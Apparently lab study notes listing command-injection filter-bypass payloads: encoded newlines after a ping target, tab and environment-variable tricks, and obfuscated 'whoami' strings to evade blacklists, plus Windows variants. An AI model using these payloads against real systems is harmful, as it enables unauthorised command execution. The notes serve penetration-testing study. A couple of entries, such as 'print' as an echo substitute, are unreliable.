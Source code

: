 ### Use new-line instead of ; or &
#### Example: 
```bash
ping 0.0.0.0%0als
```
The `%0a` is an encodded `\n` that will execute the ls command afterwards

<hr>

### Use tabs instead of spaces (bypass spaces blacklist)
```bash
ping 0.0.0.0;ls  -l
```

<hr>

### Bypass some characters
#### Shift the character
```bash
echo $(tr '!-}' '"-~'<<<[) # this will result in \
```
#### Extract the character from a env variable
```bash
$(echo	${PATH:0:1})
```
#### words blacklist
```
wh$(echo "am")i # whoami
whoa$@mi # whoami
who"a"mi # whoami
$(tr "[0-9]" "\0"<<<"who420ami") # whoami
```

<hr>

### Cool commands
```bash
print # instead of echo
printenv # print all env variables
```

<hr>

### WINDOWS ?

```cmd
C:\htb> echo %HOMEPATH:~6,-11%  # will result in \
PS C:\htb> $env:HOMEPATH[0] # will result in \
PS C:\htb> $env:PROGRAMFILES[10]
```
